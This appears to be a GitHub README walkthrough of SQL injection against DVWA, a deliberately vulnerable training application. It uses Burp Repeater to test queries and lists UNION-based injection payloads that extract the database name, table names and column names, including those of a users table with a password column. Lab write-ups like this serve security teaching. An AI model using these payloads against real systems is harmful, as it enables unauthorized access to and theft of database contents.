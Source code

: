 # SQL_Injection_DVWA

## Step 1
  In case you are planning to follow along, I would recommend to follow my intial steup guide. <br>
 [Click](https://github.com/EleniChristopoulou/DVWA_Initial_Setup-/tree/main) here to check it out.

 ## Step 2
  Now it is the time where we interact with site in order to discover actual functionality.<br>
  It is important to pay attention on the input and the output.<br>
  Head to `SQL Injection` tab.
<p align="center"><img width="420" height="300" alt="image" src="https://github.com/user-attachments/assets/f8b6d3cb-2f65-4cd0-805b-fe7f4cb9fe83" /> </p>

  So let's try out the value 1. Okay, we can see we have an output, trying out alll the value from 1-5 we can conclude that probably there are 5 users. <br> 
  When we submit a value that is above 5 we get no result.
  
<div align="center">

| ID | Result | User |
| :-----------: | :----------: | :----------: |
| 1 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/8b1303ea-d01a-4470-849d-3396f57022af" /> | admin admin |
| 5 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/5e43f551-a677-4d43-b6a7-1f1bbf70b2ee" /> | Bob Smith |
| 6 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/5caf2470-5cdd-4141-b911-7c0e70a50bc3" /> | Does_Not_Exist |

</div>

## Step 3
  Now we are ready to initiate some logs. Back to our DVWA site on the `SQL Injection` tab we submit any type of value, our goal is just to see the log.

  Since I submited the value 1, I receive the respected query, within the id hold the value 1. By following the steps depicted within the picture, we have sent our log to the repeater tab in Burp. There will be able to forward and modify the request.
  <p align="center"><img width="500" height="360" alt="image" src="https://github.com/user-attachments/assets/c8a38567-f1d4-4523-b584-6219512e10a1" />
</p>

## Step 4
  This is the part where we experiement with our SQL injection queries. Our purpose is to extract various information regarding the database, tables their columns and the data they hold. <br>

  <div align="center">

| Code | Data Extracted Description | SQL Query | Result |
| :-----------: | :----------: | :----------: | :----------: |
| 1 | Name of the database | `' UNION SELECT null, database() #` | <img width="377" height="201" alt="image" src="https://github.com/user-attachments/assets/53605c50-efbf-48ba-81a3-8b4424422d91" /> |
| 2 | Based on the name of the database we get the tables | `' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='dvwa' #` | <img width="439" height="256" alt="image" src="https://github.com/user-attachments/assets/85ab4312-9743-4b7f-afc2-6d7ba70fe682" /> |
| 3 | Based on each table we get the columns  | `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='guestbook' #` | <img width="426" height="282" alt="image" src="https://github.com/user-attachments/assets/8e1a7cd4-8fa0-44dd-bc86-c273ba1463e7" /> |

</div>

These are the tables and their columns.

- guestbook
   - comment_id 
   - comment
   - name

<div align="center">
  
| comment_id | comment | name |
| :-----------: | :----------: | :----------: |
| 1 | This is a test comment. | test |

</div>

- users
   - user_id 
   - first_name
   - last_name
   - user 
   - password
   - avatar
   - last_login
   - failed_login
